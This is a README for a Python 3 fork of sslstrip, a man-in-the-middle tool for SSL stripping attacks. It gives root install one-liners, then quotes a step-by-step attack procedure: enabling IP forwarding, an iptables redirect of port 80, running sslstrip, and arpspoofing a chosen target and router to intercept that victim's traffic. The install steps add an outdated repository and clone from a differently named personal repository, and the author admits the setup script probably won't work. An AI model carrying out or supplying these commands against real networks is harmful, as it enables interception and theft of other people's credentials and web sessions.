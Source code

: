 ## This is a fork of sslstrip to python3

### Installing

#### Withouth Virtualenv

----------

Edit APT Repo
----------
```ShellSession
nano /etc/apt/sources.list
```
Add this repo
```ShellSession
deb http://ftp.debian.org/debian/ stretch main contrib non-free
```
#
Install as root:
```ShellSession
apt update -y && apt install git -y && cd /usr/share && git clone https://github.com/4k4xs4pH1r3/sslstrip.git && sudo aptitude install python-twisted-web python3 python3-pip git -y && cd sslstrip && python setup.py install && python3 -m pip install -r requirements.txt && pip install twisted carbon autobahn autobahn && python3 sslstrip.py -h
``` 



#### With Virtualenv

```
apt install python3 python3-pip git
git clone https://github.com/hallowf/sslstrip.git
cd sslstrip
python3 -m pip install virtualenv
virtualenv venv
source venv/bin/activate
pip install -r requirements.txt
python sslstrip.py -h
```

### I haven't looked at setup.py so it probably won't work

### Original README --->
sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping
attacks.

It requires Python 2.5 or newer, along with the 'twisted' python module.

Installing:
	* Unpack: tar zxvf sslstrip-0.5.tar.gz
	* Install twisted:  sudo apt-get install python-twisted-web
	* (Optionally) run 'python setup.py install' as root to install,
	  or you can just run it out of the directory.  

Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the
	command-line options.

	The four steps to getting this working (assuming you're running Linux)
	are:

	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward

	2) Setup iptables to intercept HTTP requests (as root):
	   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

	3) Run sslstrip with the command-line options you'd like (see above).

	4) Run arpspoof to redirect traffic to your machine (as root):
	   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

More Info:
	http://www.thoughtcrime.org/software/sslstrip/
